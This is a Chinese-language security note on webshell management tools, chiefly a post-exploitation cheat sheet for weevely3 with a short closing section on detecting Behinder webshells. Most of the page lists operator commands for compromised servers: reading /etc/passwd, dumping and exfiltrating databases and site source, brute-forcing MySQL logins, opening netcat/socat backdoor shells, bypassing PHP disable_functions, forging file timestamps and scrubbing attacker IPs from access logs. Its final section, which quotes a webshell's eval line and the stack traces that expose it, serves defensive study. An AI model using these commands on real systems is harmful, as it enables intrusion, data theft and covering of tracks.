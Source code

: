 ### Webshell管理工具

* 通用功能
  * 主控端proxy - 主控端可使用代理IP与webshell交互 主控端的自我保护"反溯源"
  * 流量混淆 - 避免被NTA检测到明文流量特征
  * 文件混淆 - 避免被主机agent检测到文件特征
  * ...

|名称|主控端|被控端|文件特征|流量特征|主控端proxy|描述|
|:-----:|--|--|---|---|---|----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python>= 2.7.10| .php | 混淆内容 | 混淆(xor) |[shell proxy](sec_proxy.md#shell-proxy)|更适合linux环境下的后渗透. 特别的一点是自带php实现的zip压缩,便于打包"web应用源码"等|
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java(Jre6-8)|.php(5.4-7.2) .jsp(java 6+) .asp .aspx(.NET 2.0+)| 固定内容(可做混淆) | 加密(aes) |http(s) proxy|"冰蝎"动态二进制加密 webshell管理端 |
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|/|/|/|TCP tunneling over HTTP/HTTPS for web application servers. [Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |


#### jsp环境

```
# 设置webshell.jsp的"修改时间" 设置成1.jsp的"修改时间"
touch -r 1.jsp webshell.jsp
```

#### php环境 weevely3的后渗透功能总结

* 主机信息搜集(详细内容参考其他笔记)
  * 工具命令`system_info` 查看当前webshell文件位置 操作系统类型 根目录 php版本 当前用户名 外网IP 等
  * 工具命令`system_procs` 列出进程
  * 工具命令`:system_extensions` 查看php和web中间件信息 能看到apache_modules等信息
  * 工具命令`:audit_phpconf`
  * 工具命令`:audit_filesystem`  查看linux下关键目录 寻找 可写/可读/可执行 文件
* 文件操作
  * 读取文件命令`:audit_etcpasswd` 读取passwd文件(需要足够的权限)
  * 创建文件命令`touch -human-ts '2019-05-29 16:21:42' test.php` 创建文件 可设置创建时间
  * 下载文件命令`:file_download result.zip /Users/xxx/Downloads/result.zip` 把目标站的`result.zip` 下载到本地`Downloads/result.zip`
  * 上传文件命令`:file_upload /Users/xxx/Downloads/1.png file.png -force -vector fwrite`把本地文件/数据 上传到 远程目标站`file.png` 参数`-force`表示如果文件存在则强制覆盖
  * 上传文件命令`:file_upload -content "testdata" data.php` 把本地文件/数据 上传到 远程目标站`data.php`
  * 压缩文件命令`:file_zip site.zip ./` 把当前目录下所有文件压缩成site.zip 注意避免递归压缩!(压缩包 不应保存在被压缩或将被压缩的文件夹中)否则压缩过程被中断!
  * 压缩文件命令`:file_gzip site.gz ./` 只支持linux
  * 压缩文件命令`:file_tar` 只支持linux(待确认)
  * 搜索内容命令`:file_grep ./ "pass"` 不建议搜索大目录
* net网络请求
  * 端口扫描 - 使用PHP函数[fsockopen](https://www.php.net/manual/en/function.fsockopen.php)实现
    * 工具命令`:net_scan 127.0.0.1 21,22,80,443,1433,3306,3389,7001`
  * proxy
    * 工具命令`:net_proxy` 使用目标主机的IP发起http(s)请求
    * 工具命令`:net_curl http://ipconfig.io/json`  模拟curl 使用目标主机发起http(s)请求
* DB数据库操作
  * SQL交互
    * 工具命令`sql_console -user USER -passwd PASS123 -host 10.2.3.4` 连接MySQL成功则能交互式执行SQL语句
      * 对MySQL进行信息搜集 `SELECT version();` `show databases;`
  * 暴力枚举数据库用户名和口令 只支持mysql和pgsql
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users root -pwds db123456 admin123` 简单枚举 成功会出现`root:pass`
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`字典枚举
  * dump数据库到本地（前提是MySQL需要权限 可导出文件到某目录）
    * 常见问题:无权限导出文件
      * 查看MySQL权限 `show global variables like '%secure_file_priv%';` 如果查询结果为NULL 则没有权限直接使用SQL语句导入导出文件. 有变通方法
      * 保存sql查询的结果即可 ```SELECT * FROM `table1`;```
        * 常见问题:如果sql查询的结果数据过多 导致sql查询超时? 也有变通方法
        * 先确定数据条数 ```SELECT COUNT(*) FROM `table1`;``` 
        * 再分多次查询 ```SELECT * FROM `table1` ORDER BY `id` ASC LIMIT 0,20;``` 从第1条数据开始(起点) 查询得到20条数据(数据量) 下次`LIMIT 20,20`再得到20条数据 ... 以此类推 最后拼接查询结果 得到整个表的数据
    * 实现dump方式1 使用php实现(默认) 支持mysql,pgsql,sqlite,dblib  php代码见[weevely3/mysqldump.tpl](https://github.com/epinna/weevely3/blob/master/modules/sql/_dump/mysqldump.tpl) 原项目为[mysqldump-php](https://github.com/ifsnop/mysqldump-php)
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306` 把数据库dump 下载保存到本地目录`/var`下. 可指定保存为本地文件`-lpath /Users/xxx/Downloads/db1.sqldump`
    * 实现dump方式2 执行系统命令(只支持MySQL) 使用weevely中定义的php类`ShellCmd`执行系统命令启动`mysqldump`程序实现
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306 -vector mysqldump_sh`
  * 数据复原:将得到的数据库文件`xx.sqldump`(内容为sql语句) 导入到MySQL数据库
    * 自搭mysqld服务 并登录`mysql -u root -p`
    * 使用MySQL命令 创建 新数据库`CREATE DATABASE new_database;`
    * 在shell下导入数据库文件`data.sqldump`到新数据库`new_database` 命令`mysql -u username -p new_database < xx.sqldump`
* 派生shell
  * 正向shell`:backdoor_tcp`
    * 工具命令`:backdoor_tcp 8811 -vector netcat` 在目标主机(被控端)公网IP上开启端口监听 1.1.1.1:8811   主控端执行`nc 1.1.1.1 8811`
    * 工具命令`:backdoor_tcp 8811 -vector netcat_bsd`
    * 工具命令`:backdoor_tcp 8811 -vector python_pty`
    * 工具命令`:backdoor_tcp 8811 -vector socat`
  * 反向shell`:backdoor_reversetcp`
* 命令交互
  * 执行PHP代码 - `:shell_php "phpinfo();"`
  * 执行系统命令 - `:shell_sh pwd -vector proc_open`
  * bypass disable_functions 方法1 - 使用Apache的mod_cgi模块和`.htaccess`文件
    * 工具命令`:audit_disablefunctionbypass` 如果失败会提示
    * 利用前提:Apache使用了mod_cgi模块
    * 问题:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
    * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
    * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
    * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
    * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 实现伪终端命令交互 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
  * bypass disable_functions 方法2 - json serializer的UAF漏洞
      * PHP 7.1-7.3 [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843) [exploits](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
* 攻击痕迹清理(详细内容参考其他笔记)
  * 删除某文件(access.log)中 有1.1.1.1的那些行(实测不一定成功 看权限)  自带[3种实现方式](https://github.com/epinna/weevely3/blob/caf8978a50754892f7282d451ad18ab417600636/modules/file/clearlog.py)
    * 使用php代码实现`:file_clearlog -vector php_clear 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector clearlog 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector old_school 1.1.1.1 access.log`

### 检测案例1 - 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为冰蝎webshell使用了加密通信流量(AES双向加密)，可绕过WAF/IDS等系统

检测方法:

该检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)

部署在web应用内部的OpenRASP能够看到后门操作日志（需安装 999-event-logger 插件）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```
